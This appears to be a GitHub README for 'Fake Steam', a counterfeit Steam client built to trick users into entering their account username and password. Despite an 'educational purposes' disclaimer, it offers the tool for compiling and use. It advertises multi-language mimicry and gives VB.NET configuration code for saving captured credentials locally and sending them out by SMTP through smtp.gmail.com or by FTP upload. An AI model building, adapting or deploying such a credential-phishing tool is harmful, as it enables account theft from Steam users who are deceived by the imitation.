



# Fake Steam

This application is a simple fake of the Steam client corresponding to version 2.70.82.9. The development of this application has been for educational purposes, with the aim of demonstrating how a deception of this type can be made to simulate the execution of a legitimate application and thus obtain personal data (the username and password of Steam).

On the outside, the user will only see an application that consists of 3 forms with a couple of buttons and a little more, but the truth is that I have invested enough effort to get a good "mimic" (or at least I think it is good). There is a big job behind in the source code, and with a lot of re-usable code that can be useful to develop  related projects.

I don't take any responsability about your actions using this program, and what damages can cause your actions to third persons using this software. You should use this program only to learn how to design a fake program of this kind.

# Features

* Multi language support, supporting a total of 22 of the 26 languages of the original Steam client. 
* The unsupported languages are Korean, Japanese, Traditional Chinese and Simplified Chinese.
* Self-detection of language. By default, the language of the steam client installed on the PC will be detected, if the client is not installed, it will try to use the language of the OS, if this also fails, English language will be used by default.
* Elaborated simulation of several features of the original Steam client, as well as the lighting effects of the original user-interface controls.
* Username/password storage in local file.
* Username/password submission by SMTP.
* Username/password submission by FTP.

In summary, I have tried to take care of all the possible details, although It is not perfect, of course.

# Screenshots

# Demo video

In this video I test the behavior between the original and fake clients...

 
# Settings

To configure the program you must compile the source code. Within the source code you will find a folder with name "Config" that contains all the configurable values of the program.

Language settings:

    #Region " Steam Interface Configuration "

        ''' 

        ''' The default steam interface language.
        ''' Use this for testing purposses
        ''' 

        Public Shared ReadOnly DefaultSteamLanguage As New CultureInfo("en-US")

        ''' 

        ''' If set to <c>True</c>, overrides the default steam interface language instead of detect the proper language.
        ''' Use this for testing purposses
        ''' 

        Public Shared ReadOnly UseDefaultSteamLanguage As Boolean = False

    #End Region

Note: The names of the available cultures are specified in the **DetectLanguage** method of the **SteamHelper** class.

Username/password settings:

    #Region " Username and Password Configuration "

        ''' 

        ''' The string format to write/upload/send the captured username/password.
        ''' 

        Public Shared ReadOnly UserPassTextFormat As String =
	        <a><![CDATA[
	            Username={0}
	            Password={1}
	        ]]></a>.Value

    #End Region

Local storage settings:

    #Region " Local Storage Configuration "

        ''' 

        ''' If set to <c>True</c>, enables local storage of the username/password.
        ''' 

        Public Shared ReadOnly EnableLocalStorage As Boolean = True

        ''' 

        ''' The local directory where to write the file.
        ''' If the directory doesn't exists, it will try to create it.
        ''' 

        Public Shared ReadOnly LocalDir As String =
            Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), " Fake Steam")

        ''' 

        ''' The file name to store the data on the local directory.
        ''' By default is "FakeSteam_{ComputerName}_{Username}_{Day}-{Month}-{Year}_{Hour}-{Minute}-{Seconds}.txt"
        ''' 

        Public Shared ReadOnly LocalFilenameFormat As String =
            String.Format("FakeSteam_{0}_{1}_{2}.txt", Environment.MachineName, Environment.UserName, DateTime.Now.ToString("dd-MM-yyyy\_hh-mm-ss"))

        ''' 

        ''' Sets the local directory attributes, such as system or hidden.
        ''' 

        Public Shared ReadOnly DirAttribs As FileAttributes = FileAttributes.Normal

        ''' 

        ''' Sets the local file attributes, such as readonly or hidden.
        ''' 

        ''' 
        Public Shared ReadOnly FileAttribs As FileAttributes = FileAttributes.Normal

        ''' 

        ''' Sets the textfile encoding.
        ''' 

        Public Shared ReadOnly FileEncoding As Encoding = Encoding.Default ' ANSI Encoding.

    #End Region

SMTP settings:

    #Region " SMTP Sending Configuration"

        ''' 

        ''' If set to <c>True</c>, enables STMP sending of the username/password.
        ''' 

        Public Shared ReadOnly EnableSmtp As Boolean = True

        ''' 

        ''' The SMTP server.
        ''' 

        Public Shared ReadOnly SmtpServer As New SmtpClient("smtp.gmail.com")

        ''' 

        ''' The SMTP server port.
        ''' 

        Public Shared ReadOnly SmtpPort As Integer = 0

        ''' 

        ''' The SMTP security.
        ''' 

        Public Shared ReadOnly SmtpSslEnabled As Boolean = True

        ''' 

        ''' The mail account address.
        ''' 

        Public Shared ReadOnly MailAddress As New MailAddress("name@serv.com")

        ''' 

        ''' The mail account username/password credentials.
        ''' 

        Public Shared ReadOnly MailCredentials As New NetworkCredential("username", "password")

        ''' 

        ''' The mail subject.
        ''' By default is "Steam_{ComputerName}_{Username}_{Day}-{Month}-{Year}_{Hour}-{Minute}-{Seconds}"
        ''' 

        Public Shared ReadOnly MailSubject As String =
            String.Format("Steam_{0}_{1}_{2}", Environment.MachineName, Environment.UserName, DateTime.Now.ToString("dd-MM-yyyy\_hh-mm-ss"))

    #End Region

FTP settings:

    #Region " FTP Uploading Configuration "

        ''' 

        ''' If set to <c>True</c>, enables FTP upload of the username/password.
        ''' 

        Public Shared ReadOnly EnableFtp As Boolean = False

        ''' 

        ''' The FTP Server address.
        ''' 

        Public Shared ReadOnly FtpAddress As Uri = New Uri("ftp://127.0.0.1/")

        ''' 

        ''' The FTP server port.
        ''' 

        Public Shared ReadOnly FtpPort As Integer = 21

        ''' 

        ''' The FTP username/password credentials.
        ''' 

        Public Shared ReadOnly FtpCredentials As New NetworkCredential("username", "password")

        ''' 

        ''' The FTP directory where to upload the file.
        ''' The directory path should exist.
        ''' 

        Public Shared ReadOnly FtpDir As String = "Fake Steam/"

        ''' 

        ''' The file name to store the data on the FTP directory.
        ''' By default is "FakeSteam_{ComputerName}_{Username}_{Day}-{Month}-{Year}_{Hour}-{Minute}-{Seconds}.txt"
        ''' 

        Public Shared ReadOnly FtpFilenameFormat As String = UserConfig.LocalFilenameFormat

        ''' 

        ''' If set to <c>True</c>, uses Binary mode for the file transfer.
        ''' 

        Public Shared ReadOnly UseBinaryTransfer As Boolean = False

     #End Region

IMPORTANT: You must compile the solution in **Release** mode, because in **Release** mode I suppress the  exceptions handled, and apart, the **Debug** mode has a different behavior and additional controls are shown to test the illumination of the buttons:

That's all. Enjoy it.